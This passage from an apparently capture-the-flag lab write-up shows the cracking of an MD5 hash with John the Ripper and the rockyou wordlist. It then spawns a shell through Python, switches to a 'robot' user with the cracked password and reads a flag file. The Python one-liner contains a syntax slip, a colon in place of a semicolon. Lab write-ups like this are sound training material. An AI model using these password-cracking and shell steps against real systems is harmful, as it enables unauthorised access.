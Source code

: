 2. Next, I used John the Ripper with the ```rockyou.txt``` wordlist to crack the MD5 hash:

```bash
Copia codice
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

John quickly cracked the MD5 hash and revealed the password in clear text: ```abcdefghijklmnopqrstuvwxyz```


<img src="images/john.png" style="align: right" alt="nmap" width="600"/>

In order to switch to the robot user, I launched an interactive shell using Python:

```bash
python -c 'import pty: pty.spawn("/bin/sh")'
```

At this point I could switch to the user ```robot``` using the cracked password:

```bash
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

Once logged in as robot, I retrieved the second flag:

```bash
cat /home/robot/key-2-of-3.txt
```

<img src="images/py.png" style="align: right" alt="nmap" width="600"/>
